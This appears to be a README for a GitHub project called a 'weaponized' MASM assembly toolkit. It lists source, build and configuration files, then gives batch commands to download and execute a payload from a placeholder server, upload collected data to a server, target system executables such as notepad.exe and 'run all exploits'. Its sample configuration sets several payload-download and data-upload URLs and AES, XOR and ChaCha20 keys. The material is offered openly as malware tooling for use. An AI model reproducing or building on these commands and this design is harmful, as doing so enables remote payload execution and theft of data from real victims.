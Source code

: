 ### Main Implementation
- `MASM_2035_WEAPONIZED_COMPLETE.asm` - Complete weaponized MASM source (1,000+ lines)
- `build_weaponized_masm_2035.bat` - Comprehensive build system

### Configuration & Interface
- `http_config.ini` - HTTP URLs and encryption settings
- `target_executables.txt` - List of target executable files
- `masm_2035_cli.bat` - Command line interface wrapper
- `USAGE_INSTRUCTIONS.txt` - Complete usage documentation

## 🛠️ USAGE

### Build the Weaponized Executable
```batch
build_weaponized_masm_2035.bat
```

### GUI Mode (Interactive)
```batch
masm_2035_weaponized.exe
```

### Command Line Mode
```batch
# Download and execute payload
masm_2035_cli.bat --download https://your-server.com/payload.bin

# Upload collected data
masm_2035_cli.bat --upload https://your-server.com/upload

# Target specific executable
masm_2035_cli.bat --target C:\Windows\System32\notepad.exe

# Run all exploits
masm_2035_cli.bat --exploit

# Custom encryption key
masm_2035_cli.bat --encrypt YOUR_32_CHAR_AES_KEY_HERE_NOW

# Show help
masm_2035_cli.bat --help
```

## ⚙️ CONFIGURATION

### HTTP Configuration (`http_config.ini`)
```ini
[Download_URLs]
primary=https://your-server.com/payload1.bin
backup1=https://backup1-server.com/payload2.bin
# ... up to 6 download sources

[Upload_URLs]
primary=https://your-server.com/upload
backup1=https://backup1-server.com/upload
# ... up to 6 upload targets

[Encryption]
type=AES256
key=CHANGE_THIS_32_CHAR_ENCRYPTION_KEY_NOW
xor_key=CHANGE_THIS_16_XOR
chacha_key=CHANGE_THIS_32_CHAR_CHACHA20_KEY_NOW
```